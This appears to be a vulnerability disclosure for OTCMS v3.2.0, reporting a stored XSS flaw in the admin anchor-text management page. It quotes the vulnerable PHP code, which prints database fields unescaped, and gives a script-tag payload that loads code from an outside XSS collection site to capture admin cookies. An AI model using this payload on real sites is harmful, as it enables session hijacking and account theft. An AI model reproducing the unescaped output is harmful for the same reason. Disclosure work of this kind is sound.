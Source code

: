 # OTCMS_3.2
###1.Vulnerability type:Cross site request XSS
###2.Vulnerability program: OTCMS v3.2.0 
###3.Download address:http://110.85.5.26:89/uploads/userup/930/OTCMS_PHP_a5.rar
###4.The official website:http://otcms.com/
###5.Vulnerability description: Adding keywords and links at the anchor text management section under article management in the background management. Because the filtering is not strict, malicious intruders can maliciously insert XSS malicious statements so that cookies can be obtained, and fishing and horse-hanging attacks can be implemented.
###6.poc:
function manage(){
	global $DB,$MB,$skin,$mudi,$dataType,$dataTypeCN,$pageCount,$recordCount;

	$dataMode		= OT::GetStr('dataMode');
	$dataModeStr	= OT::GetStr('dataModeStr');

	$judApp4 = Area::JudPayApp(4);
	if ($judApp4){
		$tabWidthStr = '5%,15%,25%,25%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,样式,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:;';
	}else{
		$tabWidthStr = '5%,25%,40%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:none;';
	}
	$skin->TableTop2('share_list.gif','',$dataTypeCN .'管理');
	$skin->TableItemTitle($tabWidthStr,$tabTitleStr);
	
	$pageSize	= $MB->mMbRow['MB_itemNum'];		//每页条数
	$page		= OT::GetInt('page');
	$showRow=$DB->GetLimit("select * from ". OT_dbPref ."keyWord where KW_type='". $dataType ."' order by KW_rank ASC",$pageSize,$page);
	if (! $showRow){
		$skin->TableNoData();
	}else{
		$recordCount=$DB->GetRowCount();
		$pageCount=ceil($recordCount/$pageSize);
		if ($page < 1 || $page > $pageCount){$page=1;}

		echo('
		<tbody class="tabBody padd3td">
		');
		$number=1+($page-1)*$pageSize;
		$rowCount = count($showRow);
		for ($i=0; $i<$rowCount; $i++){
			if ($i % 2 == 1){ $bgcolor='class="tabColorTr"'; }else{ $bgcolor=''; }

			echo('
			<tr id="data'. $showRow[$i]['KW_ID'] .'" '. $bgcolor .'>
				<td align="center">'. $number .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_theme'] .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_URL'] .'</td>
				<td align="center" style="word-break:break-all;'. $busiStyleStr .'">'. $showRow[$i]['KW_themeStyle'] .'</td>
				<td align="center">'. $showRow[$i]['KW_useNum'] .'</td>
				<td align="center">'. $showRow[$i]['KW_rank'] .'</td>
				<td align="center">'. Adm::SwitchBtn('keyWord',$showRow[$i]['KW_ID'],$showRow[$i]['KW_isUse'],'isUse') .'</td>
				<td align="center">
					<img src="images/img_rev.gif" style="cursor:pointer;" onclick=\'DataDeal.location.href="keyWord_deal.php?mudi=send&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&dataMode='. $dataMode .'&dataModeStr='. $dataModeStr .'&dataID='. $showRow[$i]['KW_ID'] .'&typeNum='. $number .'"\' alt="" />&nbsp;&nbsp;
					<img src="images/img_del.gif" style="cursor:pointer;" onclick=\'if(confirm("确定删除？")==true){DataDeal.location.href="keyWord_deal.php?mudi=del&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&theme='. urlencode($showRow[$i]['KW_theme']) .'&dataID='. $showRow[$i]['KW_ID'] .'"}\' alt="" />
				</td>
			</tr>
			');
			$number ++;
		}
		echo('
		</tbody>
		');
	}
	unset($showRow);

	echo('
	<form method="post" id="listForm" name="listForm" action="keyWord_deal.php?mudi=add" onsubmit="return CheckForm()">
	<script language="javascript" type="text/javascript">document.write(\'<input type="hidden" name="backURL" value="\'+ document.location.href +\'">\')</script>
	<input type="hidden" id="dataType" name="dataType" value="'. $dataType .'" />
	<input type="hidden" id="dataType" name="dataTypeCN" value="'. $dataTypeCN .'" />
	<input type="hidden" id="dataID" name="dataID" value="0" />
	<tr>
		<td id="numID" align="center"><br /></td>
		<td align="center"><input type="text" id="theme" name="theme" size="25" style="width:120px;" /></td>
		<td align="center"><input type="text" id="webURL" name="webURL" size="25" style="width:220px;" value="http://" /></td>
		<td align="left" style="padding:3px;'. $busiStyleStr .'">
			'. AppBase::KeyWordAddi() .'
		</td>
		<td align="center"><input type="text" id="useNum" name="useNum" size="3" value="0" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><input type="text" id="rank" name="rank" size="3" value="'. (intval($DB->GetOne("select max(KW_rank) from ". OT_dbPref ."keyWord where KW_type='". $dataType ."'"))+10) .'" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><select id="isUse" name="isUse"><option value="1">启用</option><option value="0">禁用</option></select></td>
		<td align="center"><input id="subButton" type="image" src="images/button_add.gif" /></td>
	</tr>
	</form>
	<tr class="padd8">
		<td align="left" colspan="7" class="font2_2">
			提醒：1、关键字，尽量不要用纯英文做，容易造成内容标签或分页路径被破坏问题；&nbsp;&nbsp;&nbsp;&nbsp;2、替换次数：0表示不限；
		</td>
	</tr>
	');
###7.Test process:
We came to the background of the anchor text management add
![XSS insertion](1.png)
Insert our malicious statement,Confirm add:
<script src=http://xsspt.com/jr9Iqk?1521875397></script>
![Insert malicious statements](2.png)
Obtain Payload:
![Obtain Payload](3.png)
successful acquisition payload:
![successful acquisition](4.png)
![successful](5.png)
successful acquisition cookie:
![cookie](6.png)
Submitter:Free雅轩
